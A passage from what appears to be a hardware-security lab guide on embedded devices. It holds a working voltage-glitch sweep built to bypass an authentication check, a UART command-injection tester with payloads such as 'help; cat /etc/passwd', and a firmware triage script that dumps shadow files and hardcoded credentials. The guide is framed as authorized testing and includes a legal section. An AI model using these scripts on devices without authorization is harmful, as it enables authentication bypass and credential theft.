    # Convert ns to glitch module cycles (scope clock dependent)
    clk_freq = scope.clock.clkgen_freq
    cycles_per_ns = clk_freq / 1e9

    scope.glitch.ext_offset = int(offset_ns * cycles_per_ns)
    scope.glitch.width = int(width_ns * cycles_per_ns)

    scope.arm()

    # Send trigger byte to target
    target.write(b'\x00')  # command byte that initiates the auth check

    ret = scope.capture()
    if ret:
        return None  # timeout — target likely crashed

    response = target.read(1, timeout=100)
    if not response:
        return None

    return chr(response[0])


def glitch_sweep(offset_start: int, offset_end: int, offset_step: int,
                 width_start: int, width_end: int, width_step: int) -> list[dict]:
    """
    Sweep offset and width parameters to find glitch windows.
    Returns a list of successful parameter combinations.
    """
    scope, target = setup_cw()
    successes = []

    try:
        for offset in range(offset_start, offset_end, offset_step):
            for width in range(width_start, width_end, width_step):
                result = attempt_glitch(scope, target, offset, width)

                if result == 'P':
                    print(f"[SUCCESS] offset={offset}ns width={width}ns → '{result}'")
                    successes.append({'offset_ns': offset, 'width_ns': width, 'result': result})
                elif result is None:
                    print(f"[CRASH]   offset={offset}ns width={width}ns → target reset")
                    time.sleep(0.1)  # allow target to recover from reset
                # 'F' = expected failure, no output needed in sweep

    except KeyboardInterrupt:
        print("\nSweep interrupted by user.")
    finally:
        scope.dis()
        target.dis()

    return successes


if __name__ == '__main__':
    print("Starting VFI sweep...")
    results = glitch_sweep(
        offset_start=1000, offset_end=5000, offset_step=50,
        width_start=10,    width_end=200,   width_step=5,
    )

    print(f"\n=== Sweep Complete: {len(results)} successful glitch(es) found ===")
    for r in results:
        print(f"  offset={r['offset_ns']}ns  width={r['width_ns']}ns")
```

### 6.2 UART-Based Command Injection

Many embedded devices expose a serial console that passes user input to a shell via `system()` or `popen()` without sanitization. This is command injection through a hardware interface.

```python
#!/usr/bin/env python3
"""
UART command injection tester.
Tests whether the target console passes input to a shell unsanitized.
"""

import serial
import time
from typing import Optional

DEVICE  = '/dev/ttyUSB0'
BAUD    = 115200
TIMEOUT = 2.0

# Payloads ordered from least disruptive to most aggressive
INJECTION_PAYLOADS = [
    # Basic shell metacharacter probes
    b'help; id\n',
    b'help && id\n',
    b'help | id\n',
    b'help `id`\n',
    b'help $(id)\n',
    # Null byte injection (may bypass length checks in C strcmp)
    b'admin\x00injected\n',
    # Format string probes (if input feeds printf)
    b'%x.%x.%x.%x\n',
    b'%s%s%s%s\n',
    # Path traversal via shell
    b'help; cat /etc/passwd\n',
    b'help; cat /proc/version\n',
    # Persistence probe
    b'help; id; uname -a; cat /proc/cpuinfo\n',
]


def probe_uart_injection(device: str, baud: int, payloads: list[bytes]) -> None:
    """Send each payload and capture response, looking for shell output indicators."""
    indicators = [b'uid=', b'root', b'/bin/sh', b'Linux', b'No such file',
                  b'Permission denied', b'syntax error', b'sh:']

    with serial.Serial(device, baud, timeout=TIMEOUT) as ser:
        # Drain any pending output
        ser.reset_input_buffer()
        time.sleep(0.5)
        ser.read(ser.in_waiting)

        for payload in payloads:
            print(f"\n[PROBE] Sending: {payload!r}")
            ser.write(payload)
            time.sleep(TIMEOUT)

            response = b''
            while ser.in_waiting:
                response += ser.read(ser.in_waiting)
                time.sleep(0.05)

            if response:
                print(f"[RESPONSE] {response!r}")
                for indicator in indicators:
                    if indicator in response:
                        print(f"[!!] INJECTION INDICATOR FOUND: {indicator!r}")
            else:
                print("[RESPONSE] (no output)")


if __name__ == '__main__':
    probe_uart_injection(DEVICE, BAUD, INJECTION_PAYLOADS)
```

### 6.3 Fault Injection Attack Flow



---

## 7. Post-Exploitation: Firmware Analysis Pipeline

After obtaining a firmware image (via TFTP, flashrom, or memory dump), the analysis pipeline is:



```bash
#!/usr/bin/env bash
# firmware_triage.sh
# Automated triage of an extracted firmware root filesystem

ROOTFS="$1"

if [[ -z "$ROOTFS" || ! -d "$ROOTFS" ]]; then
    echo "Usage: $0 <path-to-extracted-rootfs>"
    exit 1
fi

echo "========================================"
echo " Firmware Root Filesystem Triage Report"
echo " Target: $ROOTFS"
echo " Date:   $(date)"
echo "========================================"

echo ""
echo "=== [1] Architecture ==="
find "$ROOTFS" -type f -name "busybox" -o -name "sh" 2>/dev/null | head -3 | \
    xargs -I{} file {} 2>/dev/null

echo ""
echo "=== [2] OS/Version Identification ==="
for f in "$ROOTFS"/etc/os-release "$ROOTFS"/etc/version \
          "$ROOTFS"/etc/openwrt_release "$ROOTFS"/proc/version; do
    [[ -f "$f" ]] && { echo "--- $f ---"; cat "$f"; }
done

echo ""
echo "=== [3] Credential Files ==="
for f in /etc/passwd /etc/shadow /etc/group /etc/htpasswd; do
    [[ -f "${ROOTFS}${f}" ]] && { echo "--- ${ROOTFS}${f} ---"; cat "${ROOTFS}${f}"; }
done

echo ""
echo "=== [4] Hardcoded Credentials in Binaries ==="
grep -rIa \
    -E "(password|passwd|secret|api_key|token|private_key)\s*[=:]\s*\S+" \
    "$ROOTFS" \
    --include="*.conf" --include="*.cfg" --include="*.ini" --include="*.json" \
    --include="*.xml" --include="*.lua" --include="*.sh" \
    2>/dev/null | grep -v "Binary file"

echo ""
echo "=== [5] SUID/SGID Binaries ==="
find "$ROOTFS" -type f \( -perm -u+s -o -perm -g+s \) 2>/dev/null

echo ""
echo "=== [6] World-Writable Executables ==="
find "$ROOTFS" -type f -perm -o+w -executable 2>/dev/null

echo ""
echo "=== [7] Network Service Configuration ==="
find "$ROOTFS" -name "inetd.conf" -o -name "xinetd.d" -o \
     -name "telnetd" -o -name "dropbear*" 2>/dev/null | \
    xargs -I{} sh -c 'echo "--- {} ---"; cat {} 2>/dev/null; echo'

echo ""
echo "=== [8] Startup Scripts with Dangerous Patterns ==="
grep -rn "system\s*(\|popen\s*(\|exec\s*(" \
    "$ROOTFS"/etc/init.d/ "$ROOTFS"/etc/rc.d/ \
    2>/dev/null | head -20

echo ""
echo "=== Triage Complete ==="
```

---

## 8. Hardware Security Diagnostic Reference

### 8.1 Corrected and Expanded CLI Cheat Sheet

| Goal | Command | Notes |
|------|---------|-------|
| Scan for connected sigrok devices | `sigrok-cli --scan` | Always run first; identifies exact driver and device string |
| Capture boot traffic at 2 MSa/s | `sigrok-cli --driver fx2lafw --config samplerate=2MHz --channels D0 --samples 10M --output-format srzip -o boot.sr` | Requires fx2lafw firmware on device |
| Decode captured UART (115200 8N1) | `sigrok-cli --input-file boot.sr -P uart:baudrate=115200:data_bits=8:parity=none:stop_bits=1 -A uart=tx-data` | Protocol decoder `-P`, annotations `-A` |
| Connect terminal at 115200 8N1 | `picocom --baud 115200 --databits 8 --parity none --stopbits 1 --flow none /dev/ttyUSB0` | Prefer picocom; `Ctrl-A Ctrl-X` to exit |
| Start OpenOCD with FTDI adapter | `openocd -f interface/ftdi/olimex-arm-usb-ocd-h.cfg -f target/stm32h7x.cfg` | Use lowercase `openocd`; adapter and target cfgs must match hardware |
| Connect GDB to OpenOCD | `gdb-multiarch -ex "target remote localhost:3333"` | OpenOCD GDB port default: 3333 |
| Read SPI flash via CH341A | `flashrom --programmer ch341a_spi --read firmware.bin` | Verify voltage compatibility before connecting |
| Verify flash read integrity | `flashrom --programmer ch341a_spi --verify firmware.bin` | Compares read-back against written file |
| Initial firmware analysis | `binwalk firmware.bin` | Signature scan; no extraction |
| Extract firmware filesystem | `binwalk --extract --matryoshka --directory ./extracted firmware.bin` | `-M` = recursive extraction |
| Entropy plot | `binwalk --entropy firmware.bin` | High flat entropy may indicate encryption |
| Find architecture of binary | `file extracted/squashfs-root/bin/busybox` | Determines GDB target architecture |
| Dump full register state (OpenOCD) | `reg` (in OpenOCD telnet session on port 4444) | Target must be halted first |
| Dump memory region to file | `dump_image out.bin 0x08000000 0x200000` (OpenOCD telnet) | Offset and size are hex bytes |
| Sweep baud rates | See `uart_baud_sweep.sh` in Section 4.3 | Uses `stty` and `timeout`; no special hardware |

### 8.2 Common Failure Modes and Remediation

| Symptom | Root Cause | Fix |
|---------|-----------|-----|
| `picocom: /dev/ttyUSB0: Permission denied` | User not in `dialout` group | `sudo usermod -aG dialout $USER` then re-login |
| Garbled output at correct baud rate | Wrong stop bits or parity; signal integrity issue | Try 8N1, 8E1, 8O1, 8N2 systematically; check cable length and ground connection |
| `flashrom: No EEPROM/flash device found` | Incorrect programmer string, bad clip contact, or voltage mismatch | Run `flashrom -p ch341a_spi` without `--chip` to auto-detect; re-seat clip; verify VCC |
| `openocd: Error: JTAG scan chain interrogation failed` | JTAG fuse blown (security bit set), wrong pin assignment, or target not powered | Verify JTAG header pinout with multimeter; check for TRST; some vendors blow JTAG after first boot |
| `binwalk` extracts empty directories | Missing extraction utilities (unsquashfs, lzma) | `apt install squashfs-tools xz-utils lzop` |
| sigrok-cli fails to find device | Missing udev rules for USB device | `sudo cp /usr/share/sigrok/contrib/60-libsigrok.rules /etc/udev/rules.d/ && sudo udevadm control --reload` |

---

## 9. Legal and Ethical Boundaries

All techniques in this lab must only be performed on hardware you own or have written authorization to test. Unauthorized interception of UART communications may constitute a violation of the Computer Fraud and Abuse Act (18 U.S.C. § 1030), the Electronic Communications Privacy Act, or equivalent legislation in your jurisdiction. Responsible disclosure of discovered vulnerabilities through the affected vendor's coordinated vulnerability disclosure (CVD) program is the expected professional standard. The techniques described here are identical to those used by attackers; the distinction is authorization.

---

## Appendix A: UART Frame Timing Reference

| Baud Rate | Bit Period | 10-bit frame (8N1) | Full frame at 100 chars |
|-----------|-----------|-------------------|------------------------|
| 9600 | 104.17 µs | 1.042 ms | 104.2 ms |
| 19200 | 52.08 µs | 520.8 µs | 52.1 ms |
| 38400 | 26.04 µs | 260.4 µs | 26.0 ms |
| 57600 | 17.36 µs | 173.6 µs | 17.4 ms |
| 115200 | 8.68 µs | 86.8 µs | 8.68 ms |
| 230400 | 4.34 µs | 43.4 µs | 4.34 ms |
| 460800 | 2.17 µs | 21.7 µs | 2.17 ms |
| 921600 | 1.08 µs | 10.8 µs | 1.08 ms |

## Appendix B: Common Embedded UART Console Interrupt Sequences

| Bootloader | Interrupt Method | Notes |
|-----------|-----------------|-------|
| U-Boot | Any key during countdown | Environment variable `bootdelay` controls window; set to `-1` to disable prompt entirely (common countermeasure) |
| Barebox | `Ctrl-C` during boot | More restrictive than U-Boot by default |
| Redboot | `Ctrl-C` during boot | Often requires specific timing relative to startup string |
| GRUB (serial) | `Esc` or `e` at menu | Requires `serial` console configured in grub.cfg |
| Raspberry Pi bootloader | No interrupt; drops to U-Boot or directly to kernel | UART console enabled by `enable_uart=1` in `config.txt` |
| ESP-IDF (ESP32) | `Ctrl-]` in idf.py monitor | ROM bootloader accessible by holding GPIO0 low at reset |
| Arduino (via avrdude) | Reset during upload window | Not an interactive console |
